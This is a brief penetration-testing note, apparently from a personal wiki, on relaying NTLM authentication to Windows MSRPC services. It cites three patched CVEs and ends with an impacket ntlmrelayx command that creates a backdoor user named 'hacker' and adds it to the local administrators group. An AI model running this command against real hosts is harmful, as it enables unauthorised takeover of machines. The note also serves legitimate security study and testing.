```yaml
---
title: NTLM Relay to MSRPC
---
```


There is no equivalent to SMB Singing on [[notes/network/msrpc]].
Every service defines integrity verification requirements itself.
This lead to the discovery of multiple services that can be used as [[notes/ad/ntlm-relay-sink]]:

- ITaskSchedulerService, [CVE-2020-1113](http://web.archive.org/web/20221028195609/https://blog.compass-security.com/2020/05/relaying-ntlm-authentication-over-rpc/), patched since May 2020
- IRemoteWinSpool, [CVE-2021-1678](http://web.archive.org/web/20221013042137/https://www.crowdstrike.com/blog/cve-2021-1678-printer-spooler-relay-security-advisory/), patched since January 2021
- DCOM, [CVE-2021-26414](http://web.archive.org/web/20230528140317/https://blog.compass-security.com/2021/08/relaying-ntlm-authentication-over-rpc-again/), patched since June 2022 (?)

Relay account with local admin privileges to RPC.

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impacket-ntlmrelayx -t rpc://172.16.100.1 -c 'net user hacker P@ssw0rd /add && net localgroup administrators hacker /add'
    ~~~
